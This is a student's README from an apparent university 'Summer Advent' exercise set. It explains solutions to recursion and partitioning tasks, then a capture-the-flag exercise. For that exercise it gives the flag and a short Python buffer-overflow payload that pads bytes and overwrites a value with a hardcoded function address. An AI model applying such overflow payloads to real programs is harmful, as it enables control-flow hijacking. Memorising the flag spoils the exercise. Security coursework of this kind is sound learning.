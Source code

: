 Copyright 2022 Maria Sfiraiala (maria.sfiraiala@stud.acs.upb.ro)

# Summer Advent - Day 2

-------------------------------------------------------------------------------

## Challenge5
### a)
- We first analyse the four main cases: n = 0, 1, 2 ,3.
- We then call the function after decrementing its parameter step by step.

### b)
- We check whether the exponent is 0, if so, the recursion stops and we return.
- Otherwise, we check if the exponent is odd or even and based on this
information we either call f(a, b - 1) and multiply the result by a, or call f (a, b / 2) and multiply the result by itself.

-------------------------------------------------------------------------------

## Challenge6
- We read n and k in main, we'll read v in the partition function.
- In the partition function we allocate space for v and we read its values.
- We allocate space for the result.
- We iterate 2 times through v in order to partition the values correctly.

-------------------------------------------------------------------------------

## Challenge7
- NICE_FLAG{3234ca4d959ec85b440d8089ec03baa0}
- In order to reach the flag we had to get through 5 functions, for which we
sent the necessary number of bytes, required by every read().
- The sixth function had its  third parameter overwritten with the address
of the print_flag function we wanted to call.
- The exploit:

    import sys
    import struct

    offset = 273 + 0x152 + 0x80 + 0x77 + 0xde + 0x7e
    address = 0x080485b1

    payload = offset * b'A' + struct.pack("<I", address)
    sys.stdout.buffer.write(payload)